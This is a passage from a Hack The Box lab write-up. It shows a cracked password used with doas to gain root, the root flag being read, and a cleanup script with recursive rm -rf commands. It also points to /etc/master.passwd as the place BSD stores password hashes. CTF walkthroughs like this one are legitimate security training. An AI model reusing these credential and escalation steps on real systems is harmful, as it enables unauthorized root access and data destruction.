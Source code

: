 The hash cracked almost immediately, finding a password of `littlebear`

```text
luanne$ doas whoami
Password:
root
```

I was able to run commands with `doas` with this password!

### Root.txt

```text
luanne$ doas su
Password:
# cd /root
# ls -la
total 36
drwxr-xr-x   2 root  wheel   512 Nov 24 09:30 .
drwxr-xr-x  21 root  wheel   512 Sep 16  2020 ..
-r--r--r--   2 root  wheel  1220 Feb 14  2020 .cshrc
-rw-------   1 root  wheel    59 Feb 14  2020 .klogin
-rw-r--r--   1 root  wheel   212 Feb 14  2020 .login
-r--r--r--   2 root  wheel   701 Feb 14  2020 .profile
-rw-r--r--   1 root  wheel   221 Feb 14  2020 .shrc
-r-x------   1 root  wheel   178 Nov 24 09:57 cleanup.sh
-r--------   1 root  wheel    33 Sep 16  2020 root.txt
# cat root      
cat: root: No such file or directory
# cat root.txt
7a9b5c206e8e8ba09bb99bd113675f66
# cat cleanup.sh
#!/bin/sh

/usr/bin/find / -name devel_backup-2020-09-16.tar.gz -exec rm -f {} \;
/usr/bin/find / -name devel-2020-09-16 -exec rm -rf {} \;
/usr/bin/find /tmp -exec rm -rf {} \;
```

Note: `/etc/master.passwd` is where password hashes are stored in BSD, not /etc/shadow

Thanks to [`polarbearer`](https://app.hackthebox.eu/users/159204) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

